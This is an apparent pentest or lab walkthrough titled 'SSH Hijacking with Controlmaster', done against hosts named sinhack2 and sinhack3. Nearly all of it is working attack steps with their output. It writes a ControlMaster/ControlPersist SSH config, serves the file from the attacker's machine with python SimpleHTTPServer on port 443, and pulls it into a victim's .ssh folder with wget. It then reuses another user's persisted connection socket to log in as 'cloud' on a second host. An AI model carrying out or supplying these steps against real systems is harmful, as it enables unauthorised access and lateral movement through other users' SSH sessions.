 # SSH Hijacking with Controlmaster


1. Create the config file.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ cat config      
Host *
        ControlPath ~/.ssh/controlmaster/%r@%h:%p
        ControlMaster auto
        ControlPersist yes

```

2. Start a SimpleHTTPServer with python, using a common ports.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ python -m SimpleHTTPServer 443                             
Serving HTTP on 0.0.0.0 port 443 ...

```

3. Download the config file into the target .ssh folder and give it the required permissions.

```bash
target@sinhack2:/home/aerith/.ssh$ wget http://192.168.x.x:443/config

target@sinhack2:/home/aerith/.ssh$ chmod 644 config

```

4. Wait a moment and we should see ssh connection inside the controlmaster folder.

```bash
target@sinhack2:/home/aerith/.ssh/controlmaster$ ls
ls
cloud@sinhack3:22
```

5. Now ssh as cloud on sinhack3.

```bash
target@sinhack2:/home/aerith/.ssh/controlmaster$ ssh cloud@sinhack3
ssh cloud@sinhack3
Last login: Tue Sep 15 17:30:37 2020 from 192.168.118.3
cloud@sinhack3:~$ whoami
whoami
cloud

```
